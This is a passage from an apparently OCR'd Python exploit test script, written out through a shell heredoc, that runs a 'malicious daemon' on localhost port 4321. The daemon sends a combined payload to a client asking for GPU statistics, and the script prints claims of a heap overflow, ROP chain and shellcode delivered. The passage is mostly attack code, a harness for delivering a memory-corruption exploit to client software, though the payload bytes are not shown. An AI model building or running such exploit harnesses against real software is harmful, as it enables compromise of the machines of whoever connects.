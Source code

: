                 print(f"[+] Phase 3: Sending combined payload ({len(payload)} bytes)")
                client.send(payload)
                
                print("[+] Phase 4: Exploitation complete")
                
                time.sleep(2)
                client.close()
                
            except Exception as e:
                print(f"[-] Daemon error: {e}")
            finally:
                server.close()
                
        thread = threading.Thread(target=daemon)
        thread.daemon = True
        thread.start()
        return thread
        
    def test_exploit(self):
        # Start daemon
        daemon_thread = self.start_malicious_daemon()
        
        # Wait for startup
        time.sleep(1)
        
        # Test connection
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect(('127.0.0.1', 4321))
            
            sock.send(b"GET_GPU_ADVANCED_STATS\n")
            response = sock.recv(4096)
            
            print(f"[+] Received payload: {len(response)} bytes")
            
            if len(response) > 1000:
                print("[!] COMBINED EXPLOITATION SUCCESSFUL!")
                print("[!] Heap overflow + ROP chain + shellcode delivered")
            
            sock.close()
            
        except Exception as e:
            print(f"[-] Test error: {e}")
            
        # Wait for daemon to finish
        time.sleep(2)

if __name__ == "__main__":
    test = CombinedExploitTest()
    test.test_exploit()
EOF
    